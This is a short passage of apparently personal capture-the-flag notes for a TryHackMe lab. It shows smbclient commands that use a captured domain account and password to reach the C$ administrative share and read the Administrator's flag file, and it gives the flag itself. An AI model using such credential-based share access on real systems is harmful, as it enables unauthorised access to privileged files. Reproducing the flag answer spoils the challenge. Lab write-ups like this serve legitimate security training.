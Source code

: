 Will try to connect with C$ Share as we are not local adminssssssssssssssssssss
```
smbclient -L 10.10.238.58 -U enterprise-security@vulnnet.local
sand_0873959498
```
![[Pasted image 20230917230729.png]]

```
smbclient \\\\10.10.238.58\\C$ -U 'enterprise-security' 
sand_0873959498
```

We have to use ls and cd to reach the users->administrator->deskptop->system.txt
![[Pasted image 20230917231137.png]]
```
THM{d540c0645975900e5bb9167aa431fc9b}
```
![[Pasted image 20230917231113.png]]


